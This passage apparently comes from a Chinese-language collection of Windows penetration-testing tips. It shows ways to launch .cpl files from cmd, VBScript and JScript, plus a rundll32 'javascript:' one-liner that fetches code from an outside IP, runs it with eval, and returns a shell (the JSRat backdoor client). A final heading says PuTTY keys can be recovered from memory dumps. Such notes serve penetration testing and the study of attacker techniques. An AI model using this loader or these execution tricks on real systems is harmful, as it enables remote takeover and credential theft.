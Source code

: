 (3)cmd

```
control test.cpl
```

(4)vbs

```
Dim obj
Set obj = CreateObject("Shell.Application")
obj.ControlPanelItem("test.cpl")
```

(5)js

```
var a = new ActiveXObject("Shell.Application");
a.ControlPanelItem("c:\\test\\test.cpl");
```

参考：

《CPL文件利用介绍》

---

### Tips 12. Windows下通过cmd调用rundll32执行一段代码弹回Shell

Server:

https://github.com/3gstudent/Javascript-Backdoor/blob/master/JSRat.ps1

Client:

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");w=new%20ActiveXObject("WScript.Shell");try{v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet%20Settings\\ProxyServer");q=v.split("=")[1].split(";")[0];h.SetProxy(2,q);}catch(e){}h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

当然，该RAT工具还可通过以下方法加载：

vbs，js，exe，dll，shellcode

参考：

《JavaScript Backdoor》

《JavaScript Phishing》

---

### Tips 13. 可通过内存dump还原出putty&pageant的密钥

windows和Linux均适用

参考：
